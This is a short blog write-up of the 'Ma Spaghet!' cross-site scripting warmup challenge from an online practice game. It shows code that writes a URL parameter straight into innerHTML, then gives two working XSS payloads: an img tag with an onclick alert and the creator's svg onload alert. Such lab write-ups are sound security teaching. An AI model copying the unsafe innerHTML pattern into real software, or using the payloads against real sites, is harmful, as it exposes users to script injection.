 ```yaml
---
title: Ma Spaghet! 
layout: post 
date: 2022-04-29 
permalink: /:categories/:title
categories: writeups xss-game
---
```


#### challenge

This is the script that violates the web

```
<!-- Challenge -->
<h2 id="spaghet"></h2>
<script>
    spaghet.innerHTML = (new URL(location).searchParams.get('somebody') || "Somebody") + " Toucha Ma Spaghet!"
</script>
```

#### my solution

We have only to add a simple XSS, with *img* and the option *alt* we display something in the website and for execute some *js* we use onclick or onmouseover function to run the code

[Somebody Toucha Ma Spaghet!](https://sandbox.pwnfunction.com/warmups/ma-spaghet.html?somebody=%3Cimg%20alt=%27click%27%20onclick=alert(%27win%27)%3E)

#### creator solution

The solution given by the creator of the game is as follows

`<svg onload=alert(1337)>`
